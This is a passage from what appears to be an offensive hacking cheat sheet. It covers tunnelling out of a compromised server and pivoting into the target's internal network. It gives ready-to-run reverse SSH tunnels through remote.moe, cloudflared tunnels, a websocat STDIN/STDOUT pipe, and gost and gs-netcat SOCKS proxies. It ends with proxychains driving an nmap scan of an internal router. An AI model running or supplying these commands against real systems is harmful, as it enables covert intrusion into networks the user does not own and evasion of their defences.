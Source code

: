 #### Or using remote.moe
```
ssh -R80:0:8080 -o StrictHostKeyChecking=accept-new nokey@remote.moe
```
#### Or using cloudflared
```
cloudflared tunnel --url http://localhost:8080 --no-autoupdate
```
### A simple STDIN/STDOUT pipe via HTTPS:
```
websocat -s 8080
```
#### and on the workstation use this command to connect:
```
websocat wss://<HTTPS-URL>
```
#### Or run a Socks-Proxy (via HTTPS): 
#### On the server
```
gost -L mws://:8080
```
#### On the Workstation
```
gost -L tcp://:2222/127.0.0.1:22 -F 'mwss://<HTTPS-URL>:443'
```
### Forward port 2222 to the server's port 22:
```
gost -L tcp://:2222/127.0.0.1:22 -F 'mwss://<HTTPS-URL>:443'
```
#### or use it as a Socks-Proxy:
```
gost -L :1080 -F 'mwss://<HTTPS-URL>:443'
```
### Test the Socks-proxy:
```
curl -x socks5h://0 ipinfo.io
```
## Use any tool via Socks Proxy
### On the target's network:
#### Create a SOCKS proxy into the target's network.
#### Use gs-netcat but ssh -D would work as well.
```
gs-netcat -l -S
```
#### On your workstation:
#### Create a gsocket tunnel into the target's network:
```
gs-netcat -p 1080
```
### Use ProxyChain to access any host on the target's network: 
```
echo -e "[ProxyList]\nsocks5 127.0.0.1 1080" >pc.conf
proxychains -f pc.conf -q curl ipinfo.io
```
### Scan the router at 192.168.1.1
```
proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.1
```